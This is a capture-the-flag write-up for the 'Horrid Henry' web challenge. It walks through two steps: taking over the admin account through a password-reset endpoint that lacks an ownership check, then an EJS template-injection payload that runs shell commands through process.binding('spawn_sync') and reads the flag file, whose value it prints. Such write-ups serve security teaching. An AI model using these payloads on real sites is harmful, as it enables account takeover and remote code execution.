 #### Horrid Henry Writeup

Prompt:
```I hope you like my new blogging site. Currently, only the admin can post blogs. He has posted a few times, but he won't let anyone else see them. I remember he mentioned Henry in his first post.Please solve the challenge locally first.```

Author: `bond@james`

Points: `500`

Files: [horridhenry.zip](./horridhenry.zip)

We are provided the source code as well. Going through the source code, we find that there is a security flaw in reset password endpoint.
```js
app.post("/resetPassword", auth, async (req, res) => {
    const { username, newPassword } = req.body;
    const idx = users.findIndex(user => user.username === username);
    if (idx === -1) return res.status(404).send("User not found. ");
    try {
        const salt = await bcrypt.genSalt(10);
        const hashedPassword = await bcrypt.hash(newPassword, salt);
        users[idx] = { ...users[idx], password: hashedPassword }
        return res.send("Password reset successfully.")
    } catch (err) {
        console.log(err);
        return res.status(500).json({response: "Internal Server Error."})
    }
})
```

The endpoint only verifies whether the user is logged in or not, using the auth middleware (which verifies the auth token), then extracts the username and password from the request body, and changes the password for the username. So to reset some other user's password all we need to ensure is to be logged in and change the username in our request body. Using this we can change admin's password.
Steps: 
1. Register yourself.
2. Login.
3. Go to reset password endpoint.
4. Enter some password and change the username in request body. You can do it in any way you like, here I will do it in burpsuite:


![step-1](images/image.png)

![step-2](images/image-1.png)

![success](images/image-2.png)





Then logging as admin, we find two more options unlocked for us. `Add Post` and `Modify Post`. 

Going to the modify post, we find two posts by admin are disabled. After enabling them, we find:

Post 1:
```
Well, well, well...
Welcome to my everyday blog!

Yesterday, I was out with Henry. You might remember him from my last post, which was unfortunately deleted by mistake. He shared some secret information with me: pearl{not_so_easy_dude}. However, he told me that this is not the actual secret he wanted to share.

I'm curious to know the real secret, but he refuses to tell me. I wish he trusted me more.
```

This post indicates that the secret is not `pearl{not_so_easy_dude}` and there is a different secret that we may find.

Post 2:

```
I got access to Henry's system yesterday, but he caught me. He told me that the secret I am looking for is on my system but did not tell me its location. I wish someone would help me find it.
```

So this indicates that the secret is in admin's system! Looking over the files provided, it is named something like flag_somerandomtext.txt .

So our next objective is to find the exact file name and read its content.

Reading the source code again, we find the addPost endpoint:
```js
app.post("/addPost", auth, isAdmin, async (req, res) => {
    try {
        const user = "admin";
        const { content, title, visibility} = req.body;
        const [result, msg] = await addPost(content, title, visibility);
        if (result) {
            return res.status(200).json({ response: "Added Post." })
        } else {
            return res.json({response: "Failed to add post.", error: msg})
        }
    } catch (err) {
        console.log(err);
        return res.status(500).json( {response: "Internal server error. "})
    }
})
```

This function takes the content, heading and properties about the post and add them:

```js
async function addPost(content, heading, props) {
    try {
        const files = await fs.readdir("posts");
        const idx = files.length + 1;
        await fs.mkdir(`posts/${idx}`)
        await fs.writeFile(`posts/${idx}/content.ejs`, content)
        await fs.writeFile(`posts/${idx}/properties.json`, JSON.stringify({id: idx, author: "admin", title: heading, content: content.substring(0, 20) + "...", visibility: props.visibility}))
        return [true, ""];
    } catch (err) {
        return [false, err];
    }
}
```

Here we can see that our content is written into the content.ejs file, which is included into the post:
##### Contents of views/post.ejs:
```ejs
<div class="post-container">
    <h1><%= title %></h1>
    <div class="post-meta">
      By <%= author %>
    </div>
    <div class="post-content">
      <%- include(`../posts/${id}/content`) %>
    </div>
  </div>
```

So we directly control the ejs file and hence we can exploit this doing some EJS SSTI.

Payload:
```ejs
<%= process.binding("spawn_sync").spawn({file:"ls",args:["-l"],stdio:[{type:"pipe",readable:true,writable:false},{type:"pipe",readable:false,writable:true},{type:"pipe",readable:false,writable:true},],}).output.toString() %>
```

Then on visiting our new post, we can see the file names: (If it's not showing the file names with your payload (happens if you use \<\% in place of \<\%=), you can redirect the output to some file like register.ejs, login.ejs and visit their endpoints to see the content):

![directory-contents](images/image-3.png)

So now we have our flag file name, we can simply add another post with the following payload, (yes you can also cat the file if you want):

```ejs
<%- include('/app/flag_28ca7ho9ns.txt') %>
```

![flag](images/image-5.png)


### FLAG!!
`pearl{th4ts_s0me_c00l_injection_you_f0und_th3r3_my_fri3nd}`

